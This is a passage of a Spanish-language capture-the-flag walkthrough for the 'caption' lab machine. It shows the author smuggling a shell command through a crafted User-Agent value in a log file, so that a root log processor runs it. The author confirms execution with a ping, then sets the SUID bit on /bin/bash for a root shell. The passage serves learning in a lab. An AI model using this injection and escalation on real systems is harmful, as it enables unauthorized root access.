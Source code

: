 Pero no hemos conseguido el SUID en la `bash`
```console
margo@caption:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Vamos a hacer una prueba.

Voy a modificar el script a ejecutar para mandarme un ping.
```console
margo@caption:/tmp$ cat /tmp/pwn.sh 
#!/bin/bash

ping -c 1 10.10.14.104
```

Y llegué a la conclusión que lo que estaba mal era el log malicioso.

Entonces.

La expresión regular para `userAgentRegex` es:
```regex
"user-agent":"([^"]+)"
```

Esto significa que está buscando una cadena que coincida con el formato:

- **"user-agent"**: Esta parte debe aparecer literalmente en el texto.
- **":"**: Luego debe haber dos puntos seguidos de una comilla doble.
- **([^"]+)**: Este grupo captura cualquier conjunto de caracteres que no contenga comillas dobles (`"`) y los guarda como el valor del "User-Agent".
- **"**: Finalmente, debe haber otra comilla doble para cerrar el valor.

Y en el log que tengo ahora creado, estamos escapando las comillas y en general está mas formulado.

Por lo cual podemos crear un archivo que si cumpla con estos parámetros.
```console
margo@caption:/tmp$ cat evil.log 
192.168.1.1 - - [12/Sep/2024:15:03:21 +0000] "POST /login HTTP/1.1" 200 1456 "-" "user-agent":"'; /bin/bash /tmp/pwn.sh #"
```

Y al intentar procesar el log ahora.
```console
$ python3 pwn.py 
Resultado de la lectura del log: Log file processed
```

Vemos que me llega el ping, por lo cual ahora si que estamos haciendo correctamente la inyección de comandos.
```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:15:07.462286 IP caption.htb > 10.10.14.104: ICMP echo request, id 4, seq 1, length 64
20:15:07.462559 IP 10.10.14.104 > caption.htb: ICMP echo reply, id 4, seq 1, length 64
```

Ahora modificamos el script malicioso para darle el bit de SUID a la `bash` para poder lanzarnos una consola privilegiada.
```console
margo@caption:/tmp$ cat /tmp/pwn.sh 
#!/bin/bash

chmod u+s /bin/bash
```
